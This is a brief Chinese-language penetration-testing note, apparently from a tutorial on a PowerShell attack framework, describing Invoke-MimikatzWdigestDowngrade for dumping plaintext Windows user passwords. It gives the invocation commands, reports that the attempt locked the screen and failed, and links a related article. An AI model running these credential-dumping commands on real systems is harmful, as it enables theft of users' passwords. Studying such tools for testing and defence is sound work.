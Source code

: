 #### Invoke-MimikatzWdigestDowngrade
Dump出Windows 8.1 and Server 2012的系统用户密码。
执行方式：

```powershell
PS >Invoke-MimikatzWDigestDowngrade
PS > Get-Job | Receive-Job
```
执行了

```powershell
PS >Invoke-MimikatzWDigestDowngrade
```
Windows会锁屏
![lock](./img/framework/invoke-down.jpg)
之后执行

```powershell
Get-Job
```
发现尝试多次都测试失败
![Get-Job](./img/framework/get-job.jpg)
解决办法可以参考：
[域渗透——Dump Clear-Text Password after KB2871997 installed](http://www.myhack58.com/Article/html/3/62/2016/75903.htm)
